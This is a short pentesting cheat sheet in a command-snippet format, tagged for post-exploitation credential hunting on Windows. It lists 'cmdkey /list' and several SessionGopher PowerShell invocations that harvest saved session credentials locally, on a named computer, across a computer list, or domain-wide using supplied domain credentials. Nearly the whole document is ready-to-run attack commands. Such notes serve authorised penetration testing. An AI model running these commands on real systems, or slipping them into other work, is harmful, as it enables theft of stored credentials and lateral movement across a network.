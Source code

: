 # smdkey

% cmdkey, password hunting

## cmdkey -  list saved credentials
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_HUNT 

```
cmdkey /list
```

# SessionGopher

% SessionGopher, password hunting

## SessionGopher -  locally
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_HUNT 

```
Import-Module .\SessionGopher.ps1; Invoke-SessionGopher -Thorough
```

## SessionGopher -  all domain
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_HUNT 

```
Import-Module .\SessionGopher.ps1; Invoke-SessionGopher -AllDomain -u <domain>\<user> -p <password>
```

## SessionGopher -  Computer 
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_HUNT 

```
Import-Module .\SessionGopher.ps1; Invoke-SessionGopher -Target <computer> -Thorough
```

## SessionGopher -  Computer list
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_HUNT 

```
Import-Module .\SessionGopher.ps1; Invoke-SessionGopher -iL computerlist.txt -u <domain>\<user> -p <password>
```